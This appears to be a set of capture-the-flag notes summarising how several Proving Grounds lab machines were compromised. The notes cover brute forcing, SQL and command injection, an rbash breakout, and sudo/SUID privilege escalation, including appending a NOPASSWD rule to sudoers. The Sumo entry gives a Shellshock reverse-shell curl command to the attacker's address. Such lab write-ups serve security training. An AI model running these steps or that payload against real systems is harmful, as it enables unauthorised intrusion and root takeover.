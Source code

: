 # PG-DC-4
- Linux
- Login page Bruteforce Enumeration.
- Command Injection + SSH Bruteforce.
- `sudo -l` => `sudo /usr/bin/teehee -a /etc/sudoers` => This binary allows to append anything in a file. So, in the sudoers file appended `ALL ALL = NOPASSWD: /bin/bash` to attain a root bash shell with `sudo /bin/bash`.

# PG-DC-2
- Linux
- Username wordlist to locate users.
- `cewl` to scape the site to gather a password list.
- `ssh` to the target and finally to breakout of the **restricted bash environment**(`rbash`).
Link: https://systemweakness.com/how-to-breakout-of-rbash-restricted-bash-4e07f0fd95e
- Now switched to user jerry with `su` and then, `sudo -l` => `/usr/bin/git` which can be used to spawn root shell. Refer GTFOBins.
Link: https://gtfobins.github.io/gtfobins/git/#sudo

# PG-DC-9
- Linux
- SQL Injection using `sqlmap` and dumping credentials.
- `Hydra` ssh bruteforce using a combined wordlist.
- Finally locaring a hidden file and locating a pass list and again used it for ssh bruteforcing.
- Finally `sudo -l` and located a custom binary that reads from a file and writes to another file. So, using it read `proof.txt`.

# PG-Photographer
- Linux
- Koken CMS.
- SMB Share having file credentials.
- Authentcated Koken PHP File Upload + RCE.
Link: https://www.exploit-db.com/exploits/48706
- Finally root SUID set on `PHP7.5` binary.
Link: https://gtfobins.github.io/gtfobins/php/#suid

# PG-InfosecPrep
- Linux
- Was a straightforward and quite CTFish on the foothold as we got the ssh private key.
- Now had root SUID bit set on `/bin/bash` binary.

# PG-Sumo
- Linux
- Found `cgi-bin/test` by directory bruteforce.
- So, this is related to the shellshock exploit. So, for shell, 
`curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<tun0>/6969 0>&1" http://192.168.237.87/cgi-bin/test`
- Now found dirty cow exploit with linux exploit suggester.
So, while compiling the exploit, we got `gcc: error trying to exec 'cc1': execvp: No such file or directory`
So, to tackle it we need to add the `/usr/lib/gcc/x86_64-linux-gnu/4.8/` path to the `PATH` variable.
So, use
`PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH`
